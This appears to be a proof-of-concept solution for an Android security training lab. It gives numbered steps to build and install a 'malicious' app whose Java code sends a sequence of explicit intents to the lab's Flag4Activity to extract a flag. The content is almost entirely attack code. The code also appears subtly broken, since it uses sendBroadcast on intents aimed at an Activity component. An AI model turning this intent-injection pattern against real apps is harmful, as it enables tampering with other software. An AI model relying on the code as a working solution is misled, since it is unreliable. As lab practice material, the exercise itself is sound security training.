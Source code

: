 ```markdown
1.  Compile the following Java code into an Android application.
2.  Install the malicious application on an Android device or emulator.
3.  Launch the malicious application.

```java
package com.example.maliciousapp;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MaliciousFlag4PoC extends Activity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Target component
        String targetPackage = "io.hextree.attacksurface";
        String targetClass = "io.hextree.attacksurface.activities.Flag4Activity";

        // Create the intents with the required actions
        Intent prepareIntent = new Intent();
        prepareIntent.setComponent(new ComponentName(targetPackage, targetClass));
        prepareIntent.setAction("PREPARE_ACTION");

        Intent buildIntent = new Intent();
        buildIntent.setComponent(new ComponentName(targetPackage, targetClass));
        buildIntent.setAction("BUILD_ACTION");

        Intent getFlagIntent = new Intent();
        getFlagIntent.setComponent(new ComponentName(targetPackage, targetClass));
        getFlagIntent.setAction("GET_FLAG_ACTION");

        Intent triggerIntent = new Intent();
        triggerIntent.setComponent(new ComponentName(targetPackage, targetClass));
        triggerIntent.setAction("TRIGGER_ACTION");

        // Send the intents in sequence
        sendBroadcast(prepareIntent);
        Log.i("MaliciousApp", "Sent PREPARE_ACTION");
        sendBroadcast(buildIntent);
        Log.i("MaliciousApp", "Sent BUILD_ACTION");
        sendBroadcast(getFlagIntent);
        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");
        sendBroadcast(triggerIntent);
        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");

        finish(); // Close the activity after sending the intents
    }
}
```

